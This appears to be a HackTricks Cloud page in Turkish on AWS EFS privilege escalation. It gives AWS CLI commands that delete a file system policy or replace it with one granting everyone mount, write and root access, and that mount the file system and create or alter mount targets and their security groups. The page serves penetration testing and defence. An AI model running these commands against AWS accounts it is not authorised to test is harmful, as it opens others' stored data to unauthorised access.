 # AWS - EFS Privesc

{{#include ../../../banners/hacktricks-training.md}}

## EFS

Daha fazla **EFS hakkında bilgi** için:

{{#ref}}
../aws-services/aws-efs-enum.md
{{#endref}}

Bir EFS'yi bağlamak için, EFS'nin açık olduğu bir alt ağda olmanız ve ona erişiminizin olması gerektiğini unutmayın (güvenlik grupları). Bu gerçekleşiyorsa, varsayılan olarak, her zaman onu bağlayabileceksiniz, ancak IAM politikalarıyla korunuyorsa, ona erişmek için burada belirtilen ek izinlere sahip olmanız gerekir.

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

Bu izinlerden herhangi biriyle bir saldırgan **dosya sistemi politikasını** **değiştirerek** size **erişim verebilir** veya sadece **silerek** **varsayılan erişimi** sağlayabilir.

Politikayı silmek için:
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
Değiştirmek için:
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

Bu izinle bir saldırgan **EFS'yi monte edebilir**. Eğer yazma izni, EFS'yi monte edebilen herkes için varsayılan olarak verilmemişse, yalnızca **okuma erişimine** sahip olacaktır.
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
`elasticfilesystem:ClientRootAccess` ve `elasticfilesystem:ClientWrite` ek izinleri, dosya sistemi monte edildikten sonra içinde **yazmak** ve bu dosya sistemine **root** olarak **erişmek** için kullanılabilir.

**Olası Etki:** Dosya sisteminde hassas bilgileri bulma yoluyla dolaylı yetki artırma.

### `elasticfilesystem:CreateMountTarget`

Eğer bir saldırgan **alt ağda** ise ve EFS'nin **hiçbir montaj hedefi** yoksa, bu yetkiyle **kendi alt ağında bir tane oluşturabilir**.
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**Potansiyel Etki:** Dosya sisteminde hassas bilgileri bulma yoluyla dolaylı yetki artırma.

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

Bir saldırganın EFS'nin alt ağında bir montaj hedefi bulduğu ancak **hiçbir güvenlik grubunun trafiğe izin vermediği** bir senaryoda, **seçilen güvenlik gruplarını değiştirerek bunu değiştirebilir:**
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**Olası Etki:** Dosya sisteminde hassas bilgilerin bulunmasıyla dolaylı ayrıcalık yükseltme. 

{{#include ../../../banners/hacktricks-training.md}}
